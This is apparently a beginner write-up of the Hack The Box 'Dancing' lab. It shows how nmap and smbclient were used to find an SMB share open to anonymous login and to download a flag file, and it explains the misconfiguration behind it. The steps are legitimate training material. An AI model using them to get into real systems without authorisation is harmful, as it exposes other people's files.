





# Dancing

**Platform:** Hack The Box
**Difficulty:** Very Easy
**Completed Date:** 2026-06-08

---

## 📋 About

Dancing is a very easy Windows machine that introduces the Server Message Block (SMB) protocol, its enumeration, and the risks of misconfigured SMB shares that allow anonymous access.

---

## 🎯 Objectives

* Enumerate open services on the target.
* Identify accessible SMB shares.
* Enumerate files within the shares.
* Retrieve the flag.

---

# 🔍 Reconnaissance

## Nmap Service Enumeration

A service version scan was performed against the target:

```bash
nmap -sV 10.129.1.12
```



The scan revealed SMB running on port **445**.

```text
445/tcp open microsoft-ds
```

Since SMB is commonly used for file sharing on Windows systems, the next step was to enumerate available shares.

---

# SMB Enumeration

The `smbclient` utility was used to list available SMB shares:

```bash
smbclient -L 10.129.1.12
```



The following shares were discovered:

```text
ADMIN$
C$
IPC$
WorkShares
```

The shares ending with `$` are administrative or hidden shares that typically require authentication.

The `WorkShares` share, however, appeared to be a regular shared folder and was a good candidate for anonymous access.

---

## Accessing the SMB Share

Attempting to connect to the share:

```bash
smbclient //10.129.1.12/WorkShares
```

When prompted for a password, an empty password was supplied.

Connection was successful, indicating that anonymous access was enabled.



---

# Enumerating Files

After obtaining access, the available directories were listed:

```bash
ls
```



Two user directories were discovered:

```text
James.P
Amy.J
```

Using `cd` and `ls`, each directory was inspected.

---

## James.P Directory

```bash
cd James.P
ls
```

A file named `flag.txt` was found.



---

## Retrieving the Flag

The file was downloaded using:

```bash
get flag.txt
```

After exiting the SMB session, the file contents were viewed:

```bash
cat flag.txt
```

Output:

```text
HTB{REDACTED}
```

---

# Why the Attack Works

The SMB share was configured to allow anonymous access.

Normally, SMB shares require valid credentials before users can browse files and directories. In this case, the `WorkShares` share permitted access with a blank password, exposing internal files to any user on the network.

This type of misconfiguration can lead to:

* Unauthorized file access
* Information disclosure
* Credential exposure
* Further privilege escalation opportunities

---

# Key Takeaways

* SMB enumeration is often one of the first steps during Windows assessments.
* `smbclient -L` is useful for discovering available shares.
* Anonymous SMB access can expose sensitive information.
* Hidden shares (`ADMIN$`, `C$`, `IPC$`) typically require authentication.
* Misconfigured file shares remain a common security issue in enterprise environments.

---

# Tools Used

* Nmap
* smbclient
* Linux Terminal


